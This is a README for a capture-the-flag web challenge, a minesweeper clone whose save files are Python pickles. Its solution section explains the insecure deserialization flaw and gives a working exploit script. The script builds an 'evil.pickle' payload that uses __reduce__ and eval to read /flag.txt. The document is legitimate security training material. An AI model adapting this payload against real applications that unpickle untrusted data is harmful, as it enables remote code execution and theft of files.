# Sweeper

A CTFd compatible docker image for a web challenge. Scenario: A classic minesweeper clone with a twist.

## Setup

Run the included build-docker.sh script to build and deploy the container in docker.

## Solution

The save/load functionality is vulnerable to RCE through insecure deserialization. The save files are python pickles that can be exploited to get the flag on the server. The script below generates a file called "evil.pickle" which can be used to obtain the flag when the game is loaded.

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        return (eval, ("{'game_id':open('/flag.txt').read()}",))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())

    with open("evil.pickle", "wb") as P:
        P.write(base64.urlsafe_b64encode(pickled))
        P.close()
```


